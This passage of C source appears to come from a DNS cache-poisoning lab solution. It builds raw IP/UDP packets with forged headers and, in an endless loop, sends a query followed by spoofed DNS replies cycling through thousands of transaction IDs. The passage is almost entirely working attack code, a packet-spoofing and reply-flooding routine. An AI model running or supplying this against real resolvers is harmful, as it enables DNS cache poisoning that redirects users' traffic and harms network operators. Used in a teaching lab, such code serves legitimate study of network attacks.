 ```c
  int sock=socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
  
  setsockopt(sock, IPPROTO_IP, IP_HDRINCL, &enable, sizeof(enable));
  
  struct ipheader *ip = (struct ipheader *)buffer;
  struct udpheader *udp = (struct udpheader *) (buffer + sizeof(struct ipheader));

  dest_info.sin_family = AF_INET;
  dest_info.sin_addr.s_addr = ip->iph_destip;
  
  udp->udph_chksum=check_udp_sum(buffer, pkt_size-sizeof(struct ipheader));
  if(sendto(sock, buffer, pkt_size, 0, (struct sockaddr *)&dest_info, sizeof(dest_info)) < 0){
		printf("packet send error %d which means %s\n",errno,strerror(errno));
	}
  close(sock);
}

int main(int argc, char *argv[])
{
    
    ////////////////////////////////////////////////////////////////////////
    // dns fields(UDP payload field)
    // relate to the lab, you can change them. begin:
    ////////////////////////////////////////////////////////////////////////
    
    while(1)
    {
      system("sudo python3 generate_dns.py"); // random pkt
      
      // read pkt
      FILE * f_q = fopen("query.bin","rb");
      char q_buffer[PCKT_LEN];
      int q_n = fread(q_buffer, 1, PCKT_LEN, f_q);
      send_pkt(q_buffer, q_n);
      
      FILE * f_r = fopen("reply.bin","rb");
      char r_buffer[PCKT_LEN];
      int r_n = fread(r_buffer, 1, PCKT_LEN, f_r);
      
      for(unsigned short i=10000;i<65535;i++){ //random id:1000~2000
        unsigned short order=htons(i); //little->big
        memcpy(r_buffer+28,&order,2);
        send_pkt(r_buffer, r_n);
      }
    }

    /////////////////////////////////////////////////////////////////////
    //
    // DNS format, relate to the lab, you need to change them, end
    //
    //////////////////////////////////////////////////////////////////////

    return 0;
}
```
